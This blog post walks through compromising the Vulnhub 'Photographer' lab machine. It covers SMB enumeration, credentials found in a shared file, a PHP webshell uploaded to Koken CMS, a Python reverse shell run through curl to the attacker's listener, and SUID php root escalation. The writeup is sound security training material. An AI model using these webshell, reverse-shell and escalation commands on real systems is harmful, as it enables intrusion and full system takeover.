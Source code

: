 ```yaml
---
layout: post
title: Writeup for Photographer machine form vulnhub
categories: [writeup]
tags: [vulnhub, Arbitrary file upload, SUID, PHP]
---
```


**Machine** | [Photographer](https://www.vulnhub.com/entry/photographer-1,519/)
**Vulnerability** | Arbitrary File Upload (Authenticated).
**Explanation** | The Koken CMS upload restrictions are based on a list of allowed file extensions (withelist), which facilitates bypass through the handling of the HTTP request via Burp.
**Privilige Escalation Vulnerability** | SUID binary abuse.
**Explanation** | `/usr/bin/php7.2` has the SUID bit set, which allows a non-root user to run command as root using the `-r` switch.

# Enumeration

## **Nmap scan**

I started with an nmap scan which revealed four open ports.

```
$ nmap 192.168.56.104 -sV -sC
```

```
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
```

![](/assets/photographer/00-nmap.png)

## **SMB Enumeration**

I used `smbclient` to enumerate the `SMB server` running on port `445`. I started off by listing it's shares.

```
$ smbclient -L 192.168.56.104 -N
```

![](/assets/photographer/01-listshares.png)

I found a share named `sambashare`, which I was able to access anonymously.

```
$ smbclient //192.168.56.104/sambashare -N
smb: \> ls
```

![](/assets/photographer/02-access-sambashare.png)

There was two files `mailsent.txt` and `wordpress.bkp.zip`.  
I downloaded them both.

```
smb: \> get mailsent.txt
smb: \> get wordpress.bkp.zip
```

![](/assets/photographer/03-get-from-share.png)

`mailsent.txt` contained an email with its headers.

```
$ cat mailsent.txt 
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```

![](/assets/photographer/04-mailsent-txt.png)

It didn't seem important at first, but there was a use for it later on.

The other file `wordpress.bkp.zip` did not contain anything important.

## **Web Enumeration**

There was two `apache` web servers running on port `80` and port `8000`.

### **Port 80 :**

I browsed to the first one, but I did not find anything useful.  
I also did not find any hidden resources using `gobuster`.

![](/assets/photographer/05-apache-80.png)

So, I moved to the next one.

### **Port 8000 :**

This is The home page of the web server running on port 8000.

![](/assets/photographer/06-apache-8000.png)

I used `gobuster` to find any hidden resources.

```
$ gobuster dir -u http://192.168.56.104:8000 \
--status-codes-blacklist 404,403 \
--exclude-length 0 \
-w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt
```

> --exclude-length 0: exclude the following content length (completely ignores the status)

![](/assets/photographer/07-gobuster-8000.png)

I was able to find an admin portal on `/admin`.

![](/assets/photographer/08-admin-login-page.png)

The credentials I used to login were found on `mailsent.txt` I retrieved from the `sambashare` share.

```
Email address: daisa@photographer.com
Password: babygirl
```

![](/assets/photographer/09-admin.png)

This is `Koken Content Management System (CMS)` which is vulnerable to an `Arbitrary File Upload` in case of an authenticated user.

To exploit this vulnerability I used an exploit found at [exploit-db](https://www.exploit-db.com/exploits/48706).

# Initial Foothold

I created a php script and saved it as `image.php.jpg`.

```
$ echo '<?php system($_GET["cmd"]);?>' > image.php.jpg
```

I went back to the admin page, clicked on `import content` at the bottom right of the page, uploaded `image.php.jpg`, and sent the requst to burpsuite.

![](/assets/photographer/10-intercept-upload.png)

I changed the name to `image.php`, and forwarded the request.

![](/assets/photographer/11-change-name.png)

After the upload is done, I went back the koken CMS Library, selected The newly uploaded file, right clicked on `Download File` and copied the link.

![](/assets/photographer/12-access-webshell.png)

To test it I used `curl` and sent a request to the link I copied, and I got a response with the output of the command I provided as a query.

```
$ curl http://192.168.56.104:8000/storage/originals/43/f5/image.php?cmd=id
```

![](/assets/photographer/13-cmd-exec-poc.png)

After getting a working `webshell`, I tried to get a reverse shell.

## **Reverse shell**

To get a reverse shell I used this python payload found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python).

```
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.105",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

I started a listener using `netcat`.

```
$ nc -lnvp 1337
```

![](/assets/photographer/14-listener.png)

I executed the payload with the webshell.

```
$ curl 'http://192.168.56.104:8000/storage/originals/43/f5/image.php?cmd=python3%20%2Dc%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket%2Esocket%28socket%2EAF%5FINET%2Csocket%2ESOCK%5FSTREAM%29%3Bs%2Econnect%28%28%22192%2E168%2E56%2E105%22%2C1337%29%29%3Bos%2Edup2%28s%2Efileno%28%29%2C0%29%3Bos%2Edup2%28s%2Efileno%28%29%2C1%29%3Bos%2Edup2%28s%2Efileno%28%29%2C2%29%3Bpty%2Espawn%28%22%2Fbin%2Fsh%22%29%27'
```

![](/assets/photographer/15-payload.png)

And I got a connection back on the `nc` listener.

![](/assets/photographer/16-revshell.png)

To get a fully functioning shell I stabilized it using the folloing commands.

```
$ python3 -c 'import pty; pty.spawn("/bin/sh")'
$ export TERM=xterm
$ ^Z (CTRL+Z)
kali$ stty raw -echo; fg
```

![](/assets/photographer/16-shell-stabilize.png)

After stabilizing the shell, I got the user flag.

```
$ cd /home/daisa
$ cat user.txt
```

![](/assets/photographer/17-user-flag.png)

# Privilige Escalation

I listed all files with the `SUID` bit set, to see if there is a binary a can use to escalate my priviliges.

```
$ find / -type f -perm -u=s 2>/dev/null
```

![](/assets/photographer/18-suid-bins.png)

The intersting binary I found was `/usr/bin/php7.2`.

`php` can be used to excalate priviles according to [GTFOBins](https://gtfobins.github.io/gtfobins/php/#suid).

I used the following command to get a shell as root.

```
$ php7.2 -r "pcntl_exec('/bin/bash', ['-p']);"
```

![](/assets/photographer/20-root-shell.png)

After that I got the root flag.

```
$ cd /root
$ cat proof.txt
```

![](/assets/photographer/21-root-flag.png)
